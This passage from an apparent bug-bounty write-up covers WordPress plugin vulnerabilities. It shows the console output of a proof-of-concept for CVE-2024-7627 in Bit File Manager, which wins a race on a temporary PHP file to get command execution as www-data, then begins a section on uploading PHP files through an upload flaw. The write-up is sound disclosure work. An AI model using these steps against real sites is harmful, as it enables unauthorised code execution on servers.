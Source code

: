 To automate the above steps, I published a Proof-of-Concept Python script on my GitHub repository [CVE-2024-7627 PoC](https://github.com/siunam321/CVE-2024-7627-PoC):

```shell
└> python3 poc.py
[*] Getting a valid AJAX nonce...
[+] Found the valid AJAX nonce: f3128b289e
[*] Getting a random file's hash via elFinder command "open"...
[+] Found file "wp-config-sample.php" with hash "l1_d3AtY29uZmlnLXNhbXBsZS5waHA"!
[*] Editing file with hash "l1_d3AtY29uZmlnLXNhbXBsZS5waHA" via elFinder command "put" and getting the edited temporary PHP file at "http://localhost/wp-content/uploads/file-managertemp.php"...
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[+] We won the race condition! Here's the PHP payload result:
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
8d3b2776e8a6
```

## Arbitrary File Upload

### Flawed/Missing MIME Type Checking - [Bit File Manager](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager/bit-file-manager-100-free-open-source-file-manager-and-code-editor-for-wordpress-655-authenticated-subscriber-arbitrary-file-upload)

After reporting that vulnerability, it's also time to find another vulnerability! Since elFinder has command "[upload](https://github.com/Studio-42/elFinder/wiki/Client-Server-API-2.1#upload)", we can try to upload PHP files!

But before we do that, we need to setup file manager access to role "Subscriber" and enable elFinder command "upload" to test this command:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108105839.png)

